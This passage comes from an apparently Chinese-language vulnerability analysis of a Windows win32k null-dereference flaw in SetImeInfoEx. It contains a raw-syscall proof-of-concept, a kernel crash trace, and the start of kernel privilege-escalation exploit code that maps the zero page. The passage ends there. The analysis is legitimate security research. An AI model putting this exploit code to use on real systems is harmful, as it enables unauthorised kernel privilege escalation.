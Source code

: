 接下来需要在用户进程中调用系统服务函数 `NtUserSetImeInfoEx` 以使执行流在内核中进入 `SetImeInfoEx` 函数的调用。由于系统服务函数 `NtUserSetImeInfoEx` 没有在任何用户态的系统模块中导出，因此只能通过手动发起系统调用的方式调用。

```
BOOL __declspec(naked)
xxNtUserSetImeInfoEx(tagIMEINFOEX *imeInfoEx)
`{`
    __asm `{` mov eax, 1226h `}`;
    __asm `{` lea edx, [esp + 4] `}`;
    __asm `{` int 2eh `}`;
    __asm `{` ret `}`;
`}`
```

函数 `NtUserSetImeInfoEx` 只有一个参数，是指向源输入法扩展信息对象的指针。在用户进程中定义这样的源输入法扩展信息对象，并将地址传递给 `NtUserSetImeInfoEx` 函数的调用。

```
tagIMEINFOEX iiFaked  = `{` 0 `}`;
bReturn = xxNtUserSetImeInfoEx(&amp;iiFaked);
```

由于当前进程关联的窗口站对象的成员域 `spklList` 指向空地址，而空地址所在的零页内存此时并没有映射，因此当内核函数 `SetImeInfoEx` 在试图访问零页内存时，将触发访问违例的异常，导致系统 BSOD 的发生。

```
Access violation - code c0000005 (!!! second chance !!!)
win32k!SetImeInfoEx+0x17:
9490007c 395014          cmp     dword ptr [eax+14h],edx
kd&gt; r eax
eax=00000000
kd&gt; k
 # ChildEBP RetAddr
00 98a1ba90 9490003d win32k!SetImeInfoEx+0x17
01 98a1bc28 83e471ea win32k!NtUserSetImeInfoEx+0x65
02 98a1bc28 0016f2eb nt!KiFastCallEntry+0x12a
03 3378fbf4 0016f4c5 TempDemo!xxNtUserSetImeInfoEx+0xb
04 3378fdfc 0016f1ca TempDemo!xxTrackExploitEx+0x155
```



## 0x4 利用

前面的部分分析了漏洞的细节并构造了漏洞的验证代码。接下来将根据验证代码通过该漏洞实现内核提权的利用代码。

### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E5%86%99%E7%9A%84%E5%AE%9E%E7%8E%B0"></a>任意地址写的实现

窗口站对象属于内核对象，通常情况下用户进程只能通过特定的接口函数极为有限地控制内核对象的成员数据。当某个内核对象的某些成员指针意外地指向空地址这样的位于用户地址空间的内存地址时，用户进程中的利用代码将能够通过分配这样的内存页并通过巧妙的内存布局实现更大范围地控制内核对象成员数据的能力。

在利用代码中首先分配基地址位于零页的内存块，以使零页完成映射。

```
PVOID  MemAddr  = (PVOID)1;
SIZE_T MemSize  = 0x1000;
NtAllocateVirtualMemory(GetCurrentProcess(),
    &amp;MemAddr,
    0,
    &amp;MemSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_READWRITE);
ZeroMemory(MemAddr, MemSize);
```
